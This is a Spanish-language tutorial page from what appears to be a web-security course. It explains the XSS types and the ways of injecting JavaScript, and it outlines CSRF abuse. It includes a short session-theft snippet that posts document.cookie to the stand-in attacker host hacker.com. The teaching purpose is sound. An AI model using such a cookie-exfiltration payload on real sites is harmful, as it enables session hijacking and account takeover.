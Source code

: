 ```yaml
---
title : "Cross-Site Scripting"
lead: ""
date: 2020-10-06T08:48:45+00:00
draft: false
images: []
menu:
  docs:
    parent: "apps-web"
weight: 40030
---
```


El Cross-Site Scripting, o XSS (incluido en el punto 3 del OWASP Top 10), se refiere a una clase de vulnerabilidades que
intentan introducir código JavaScript en un sitio web, el cual será ejecutado en el navegador de otros usuarios.
Dependiendo de la aplicación en específico, las repercusiones de esto varían desde meras molestias hasta
la completa ruptura de confidencialidad e integridad del sistema.

Existen 3 tipos:
* **Almacenado**: El payload queda almacenado en algún lado y no es necesario estar activamente atacando a la víctima.
  Una vez que ella acceda a este, se ejecutará el código malicioso.

* **Reflejado**: El payload no se almacena permanentemente, sino que viene codificado en alguna variable
  (como un parámetro GET).

* **DOM**: Este tipo de XSS no puede ser ejecutado por medio de variables ni datos almacenados, sino que se debe
realizar una serie de acciones específicas en el mismo navegador de la víctima.

## JavaScript

JavaScript (JS) es un lenguaje de programación orientado a objetos que usualmente se utiliza para añadir
componentes dinámicas a un sitio web. [Aquí](https://www.w3schools.com/js/DEFAULT.asp)
pueden encontrar un tutorial de JS si lo necesitan.
El código JS en una página se ejecuta en el navegador del usuario, no en el servidor.
Existen varias formas _"oficiales"_ de insertar JS en un sitio. El primero es tener el código directamente en
el HTML, delimitado por tags `<script></script>`, por ejemplo:

    <html>
        <head>
            <script>
                ...code...
            </script>
        </head>
    </html>

La otra forma es hacer una referencia a un archivo que contenga el código, como por ejemplo:

    <html>
        <head>
            <script src="/code.js"></script>
        </head>
    </html>

Finalmente, se puede introducir JS bajo ciertos eventos, como `onclick`, `onerror`, `onmouseover`, etc.

    <html>
        <body>
            <button onclick="...code..."></button>
        </body>
    </html>

Existen otras formas de introducir código JS a un sitio web, pero se utilizan más que nada en ataques donde las
formas comunes están siendo bloqueadas o filtradas. Estas se escapan del ámbito de este curso, pero si están
interesados, pueden revisar la
[guía de evasión de filtros XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) de OWASP.

## Ejemplos

Uno de los usos más peligrosos de este tipo de ataques es el robo de sesiones. El código introducido toma la
cookie de sesión de la víctima y se la envía al atacante. Luego él puede simplemente copiar esta cookie en
su navegador, con lo cual obtiene acceso autenticado como la víctima. El código a continuación logra hacer esto:

    var xhr = new XMLHttpRequest();
    xhr.open("POST", "https://hacker.com/", true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.send("cookie=" + document.cookie);

Otro uso es el Cross-Site Request Forgery (CSRF). Estos ataques intentan impersonar a la víctima, enviando
consultas en su nombre. Esto funciona ya que las consultas hechas a través de JavaScript también llevan las cookies
y parámetros de sesión del usuario, por lo que el atacante tiene el potencial de ganar los mismos permisos que
la víctima. Esto se podría utilizar, por ejemplo, para realizar acciones en nombre del administrador, con lo cual
crear otro usuario con permisos de administrador.

